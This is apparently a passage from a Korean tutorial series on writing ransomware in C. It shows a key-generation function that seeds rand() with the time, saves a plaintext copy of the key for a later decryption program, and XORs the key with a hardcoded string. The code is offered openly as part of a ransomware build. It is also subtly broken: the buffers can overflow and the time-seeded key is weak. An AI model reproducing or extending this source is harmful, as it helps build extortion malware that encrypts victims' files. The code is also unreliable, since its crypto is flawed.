

02 랜섬웨어 프로그램
-#1 암호화 프로그램
#2 키 값 만들기 & 키 값 암호화
#include <stdio.h>
#include <stdlib.h>   // rand, srand 함수 라이브러리
#include <time.h>   // time 함수 라이브러리
#include <string.h> // string 함수 라이브러리

char temp[10];
char the_key[10];
char key[101] = { "Y#DwGZ#jYbZz*-@py_y3Jr+Uz3g7T9nBP2cFNb8cU8U_m_hxRfLNsP2Qmv@!XTqca$LM6s5N5JV$5qahLpe74x*J4NA6Zq#VdnFh" }; // 암호키
void EncryptKey()
{
   srand((unsigned)time(NULL));
 //rand 함수의 seed값을 현시각에 따라 설정해준다. 시각은 매순간 다르므로 seed값은 항상 달라짐
   sprintf(the_key, "%d", rand() % 1000000000 + 100000000);
   // 기존에 알고있는 printf와 달리 sprintf는 해당 메모리에 값을 출력함.
   // 1번소스에 들어가는 키값은 이 구문에 의해 암호화된 값이다.
   sprintf(temp, "%s", the_key);
   // 위의 the_key값은 또다시 암호화 될 것이기 때문에 암호화되기 전의 키값을 저장하려는 목적.
   // 이는 4번 소스(복호화 프로그램)에서 활용될 예정.
   int i;
   for (i = 0; i<strlen(the_key); i++){
      the_key[i] ^= key[i];
   }
   // 암호화
}